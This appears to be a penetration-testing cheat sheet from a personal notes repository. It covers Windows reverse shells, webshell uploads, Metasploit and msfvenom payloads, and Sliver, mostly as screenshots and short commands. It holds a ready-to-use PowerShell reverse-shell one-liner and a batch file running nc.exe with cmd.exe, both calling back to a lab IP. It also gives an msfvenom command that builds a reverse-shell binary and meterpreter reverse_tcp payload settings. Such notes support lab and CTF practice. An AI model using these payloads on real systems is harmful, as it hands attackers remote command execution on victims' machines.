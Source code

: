 
# Windows reverse shells
## Basic powershell reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.98',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## reverse shell dll

```


```
## reverse shell .bat
```
@echo off
set ATTACKER_IP=10.10.14.98
set PORT=1234

nc.exe %ATTACKER_IP% %PORT% -e cmd.exe
```
## Nishang


## Webshells

### laudanum
Find the type of shell needed, make copy


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bc795f21-8190-4590-a4a3-2fb35488a5fa)
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/54a0b631-94a3-4ce9-a001-6e5c213c3a7b)


Add our IP


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/a8ee9650-7b22-4c93-9136-a06e2fe8129a)

Upload file to site, go to location of file.


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/d49eabfc-1581-497d-bc91-b7346bb9d019)

### antak

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7d56c6d0-80cf-4e78-92c7-b43b8326ebf2)

change login info

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0393c2f3-08b3-4015-a1ce-699bbed4e6b2)

Upload go to shell page

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/f5158b1f-e185-4343-9278-23ea1ece5ecc)# Payloads


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/49b877f9-8979-4760-9b1f-038c410c9e7f)


## Shells with Metasploit

### Staged vs non staged
```
In Metasploit, the “/” character is used to denote whether a payload is staged or not,
so shell_reverse_tcp at index 20 is not staged, whereas shell/reverse_tcp at index 15 is.
```

### msfvenom

![Pasted image 20230508141045](https://github.com/dbissell6/Shadow_Stone/assets/50979196/988055f3-d9a3-4b0a-9e5b-be91b0886c30)

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.34 LPORT=9999 -f elf -o shell.elf
```


### msfconsole

g will set variable as global, useful when trying different exploits
`setg rhosts 10.10.10.10`


![Pasted image 20230508141206](https://github.com/dbissell6/Shadow_Stone/assets/50979196/efbcf2e5-fec1-4485-ba20-5e988702c92b)


`set payload windows/meterpreter/reverse_tcp`


### show system arch vs payload arch

![Pasted image 20230508154055](https://github.com/dbissell6/Shadow_Stone/assets/50979196/31f9ac3d-5efb-4b31-9237-f0b652376925)

Now can
```
set payload windows/x64/meterpreter/reverse_tcp
```
## Sliver

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/47d173f7-f725-4f09-a7d5-407fd6d67398)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/61c75ccc-9ad2-4aaa-a186-458ebf22ddff)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/5844f8d6-9654-4bbf-9079-357bb7c5161e)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/66e93bb6-8523-46fb-9753-ae8fcbda44ee)
